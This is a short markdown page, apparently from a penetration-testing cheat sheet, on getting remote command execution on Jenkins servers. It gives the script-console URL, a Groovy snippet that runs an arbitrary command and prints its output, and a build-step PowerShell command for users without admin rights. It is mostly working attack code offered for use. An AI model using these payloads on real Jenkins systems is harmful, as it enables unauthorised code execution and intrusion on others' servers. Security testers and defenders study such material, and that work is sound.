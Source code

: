 ```yaml
---
layout: app
title: "Jenkins"
image: "https://www.jenkins.io/images/logos/jenkins/Jenkins-stop-the-war.svg"
tags: ["jenkins","RCE","<=2.x"]

---
```


# RCE < 2.x

With Admin access

```
http://jenkins:[8080]/script
http://jenkins:[8080]/job/<project>/configure
```

In the script console, Groovy script could be

```java
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

If don't have Admin access but could add/edit build steps in the build configuration.
Add **"Execute Windows Batch Command"**

```powershell
powershell -c <command>
```